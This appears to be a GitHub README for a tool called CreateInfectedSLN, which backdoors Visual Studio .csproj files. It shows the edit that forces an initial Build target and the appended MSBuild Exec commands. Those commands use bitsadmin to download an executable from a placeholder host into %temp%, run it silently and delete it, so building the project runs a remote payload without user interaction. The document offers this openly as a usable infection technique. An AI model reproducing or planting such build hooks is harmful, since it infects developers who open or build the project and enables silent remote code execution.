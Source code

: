 ## Usage:



```cs
CreateInfectedSLN(Job(random Sting), Link(direct download), Filename(Name of file saved to temp));
```


## So what does this do?

```xml
This edits the file and adds a bit to it:
We change the 15 to 14 and add 'InitialTargets="Build"'
```

#### Clean .csproj:

```xml 
<Project ToolsVersion="15.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
```
#### Modifed .csproj
```xml 
<Project ToolsVersion="14.0" InitialTargets="Build" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
 ```

 ### We then append this to the end of the file:
```xml
<Target Name="Build">
    <Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="%temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="del %temp%\Demo.exe" >
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Message Importance="high" Text="$(ErrorCode)"/>
    </Target> 
```
### Here is the biggest part: 

We use bitsadmin to assign a job that downloads and runs the process after its downloaded in the background and requires no user interaction.  
```xml
<Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
 ```
## Extra Example: 
```cs
/*Job = JOSHN38N;
Link = http://domain.com/filename.exe;
Filename = Demo.exe;*/
```
